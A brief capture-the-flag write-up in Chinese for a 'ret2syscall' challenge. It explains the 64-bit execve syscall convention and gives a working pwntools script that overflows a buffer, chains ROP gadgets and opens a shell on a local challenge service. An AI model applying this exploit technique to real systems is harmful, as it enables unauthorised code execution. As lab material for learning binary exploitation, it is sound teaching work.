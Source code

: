 # ret2syscall

From

## 文件分析

下载`ret2syscall`, NX on, PIE off, Canary off, RELRO partial
ghidra分析为64位程序

## 逆向

摆明了随便打

## EXPLOIT

首先要知道64位syscall和32位syscall有什么差别：
（32位见[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall)）
64位syscall使用rax作为指令寄存器，这里我们使用execve  
然后execve的三个参数分别放在rdi, rsi, rdx三个寄存器中  
放好后执行syscall指令即可

```python
from pwn import *
sh = remote('localhost', 33359)
popRax = 0x40117e
callObj = 59 # execve
popRsiRdx = 0x401182
popRdi = 0x401180
shstr = 0x404040
syscall = 0x401185
sh.sendline(b'0'*0x48 + p64(popRax) + p64(callObj) + p64(popRsiRdx) + p64(0) + p64(0) + p64(popRdi) + p64(shstr) + p64(syscall))
sh.interactive()
```

Done.
